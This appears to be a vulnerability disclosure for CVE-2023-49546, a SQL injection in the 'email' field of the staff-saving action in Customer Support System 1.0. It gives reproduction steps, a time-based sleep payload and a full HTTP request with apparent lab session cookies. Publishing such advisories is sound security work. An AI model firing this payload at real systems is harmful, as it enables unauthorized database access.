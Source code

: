# CVE-2023-49546
# Customer Support System 1.0 - SQL Injection Vulnerability in the "email" Parameter During "save_staff" Operation

**Description**: A SQL Injection vulnerability exists in version 1 of the Customer Support System. A malicious attacker can issue SQL commands to the MySQL database when creating/editing a staff user through the vulnerable parameter 'email'.  
  
**Vulnerable Product Version**: Customer Support System 1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49546     
**Tested on**: Windows  
### Steps to reproduce:  
1- Log in to the application.  
2- Navigate to the page /customer_support/index.php?page=new_staff to add a staff user or to /customer_support/index.php?page=staff_list to edit a staff user.  
3- Create or edit a staff user and insert a malicious payload into "email" parameter.  
**payload**: '+(select*from(select(sleep(2)))a)+'
### Request:

```
POST /customer_support/ajax.php?action=save_staff HTTP/1.1
Host: 192.168.68.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------323911847618056921711360698406
Content-Length: 1327
Origin: http://192.168.68.148
Connection: close
Referer: http://192.168.68.148/customer_support/index.php?page=new_staff
Cookie: csrftoken=1hWW6JE5vLFhJv2y8LwgL3WNPbPJ3J2WAX9F2U0Fd5H5t6DSztkJWD4nWFrbF8ko; sessionid=xrn1sshbol1vipddxsijmgkdp2q4qdgq; PHPSESSID=mfd30tu0h0s43s7kdjb74fcu0l

-----------------------------323911847618056921711360698406
Content-Disposition: form-data; name="id"


-----------------------------323911847618056921711360698406
Content-Disposition: form-data; name="firstname"

Teste2
-----------------------------323911847618056921711360698406
Content-Disposition: form-data; name="middlename"

Teste2
-----------------------------323911847618056921711360698406
Content-Disposition: form-data; name="lastname"

Teste2
-----------------------------323911847618056921711360698406
Content-Disposition: form-data; name="contact"

Teste2
-----------------------------323911847618056921711360698406
Content-Disposition: form-data; name="address"

Teste2
-----------------------------323911847618056921711360698406
Content-Disposition: form-data; name="department_id"

1
-----------------------------323911847618056921711360698406
Content-Disposition: form-data; name="email"

Teste2@Teste2.com'+(select*from(select(sleep(5)))a)+'
-----------------------------323911847618056921711360698406
Content-Disposition: form-data; name="password"

teste
-----------------------------323911847618056921711360698406
Content-Disposition: form-data; name="cpass"

teste
-----------------------------323911847618056921711360698406--
```
Discoverer(s)/Credits:  
Geraldo Alcântara
